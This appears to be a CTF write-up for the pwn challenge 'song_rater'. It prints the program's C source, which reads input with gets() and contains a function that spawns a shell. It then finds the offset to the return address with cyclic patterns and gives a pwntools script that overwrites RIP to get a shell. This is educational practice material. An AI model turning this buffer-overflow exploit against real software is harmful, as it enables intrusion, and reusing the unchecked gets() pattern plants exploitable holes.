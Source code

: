 # pwn

## Never gonna give you UB
> Solved by : iamavu

We are given a file called `song_rater` amongst other files (Dockerfile and such) with the following security mitigations.

![](https://i.imgur.com/JYzn83H.png)


as there is no PIE, this should be easily solvable as there won’t be random address loading for binary everytime we run the binary, yay!
When we run the binary we get the following

![](https://i.imgur.com/KvLHIve.png)


So it just prints whatever input we get. 

We are also given the C code for the binary, making our job much easier.

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

// win or flag function which we have to execute somehow for us getting the shell
void scratched_record() {
        printf("Oh no, your record seems scratched :(\n");
        printf("Here's a shell, maybe you can fix it:\n");
        execve("/bin/sh", NULL, NULL);
}

extern char *gets(char *s);

//main function which asks for input without checking input size (gets is security flaw here)
int main() {
        printf("Song rater v0.1\n");
        char buf[0xff];
        printf("Please enter your song:\n");
        gets(buf);
        printf("\"%s\" is an excellent choice!\n", buf);
        return 0;
}
```

I have added comments where necessary, now lets have a look at binary in GDB to find the address of `RIP` so we can put the address of `scratched_record` there and get our flag.


![](https://i.imgur.com/1vmdIB9.png)


We observe that the address of `scratched_record` is `0x0000000000401196`, so we need to somehow put that address in `RIP` instruction pointer.
Let’s buffer overflow!!
We will get big buffer of 300 bytes and see how the program behaves and see which byte ends up in `RBP` .

![](https://i.imgur.com/qpSNWTo.png)


We did `pwn cyclic 300` to get 300 bytes which have certain pattern, and now we will send this as input to program and make it crash.
Why 300? well `0xff` in decimal is `255` so 300 sound pretty good to me.

![](https://i.imgur.com/ZsNFR3a.png)


After crashing the program we see that the byte `haaaaaab` gets into RBP, let’s see how much bytes that is by doing `cyclic -l haaaaaab`

![](https://i.imgur.com/UT4iqsl.png)


We found the offset at 256, now we need to add 8 into that so we get the offset where `RIP` is!
and that is `264`. yay!
Let’s write a simple pwntools script to exploit this now

```python
from pwn import *
win = p64(0x0000000000401196)
overwrite = b"A"*264
payload = overwrite + win
p = process("./song_rater")
# p = remote("hungry-eyes--eric-carmen-9941.ctf.kitctf.de", "443", ssl=True)
p.sendline(payload)
p.interactive()
```

We simply pack the address of `scatched_record` in `win` variable and overwrite `264` bytes and then send that payload to the program and then get an interactive shell!

Let’s run this

![](https://i.imgur.com/2icIWVR.png)


we got the shell!


